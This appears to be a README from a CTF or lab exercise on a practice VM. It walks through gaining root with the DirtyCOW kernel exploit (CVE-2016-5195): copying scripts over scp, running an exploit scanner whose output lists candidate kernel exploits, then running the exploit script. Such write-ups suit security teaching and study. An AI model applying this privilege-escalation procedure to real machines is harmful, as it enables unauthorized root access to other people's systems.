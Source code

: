 # DirtyCOW exploit (CVE-2016-5195)

Download all scripts inside vm and login as zaz
```bash
scp *.sh zaz@$IP:~

ssh zaz@$IP
```

Run this to scan system for vulnerabilities:
```bash
bash scan.sh
```

Here is the results of the scanning system for vulnerabilities;
```console
  Local Kernel: 3.2.0
  Searching 72 exploits...

  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
```

Let's use DirtyCOW exploit:
```bash
bash run.sh
```

## References
- [List](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) of various implementations
- [exploit-db](https://www.exploit-db.com/exploits/40616) page for DirtyCOW
- [wiki post](https://ru.wikipedia.org/wiki/%D0%A3%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D0%BE%D1%81%D1%82%D1%8C_Dirty_COW) about DirtyCOW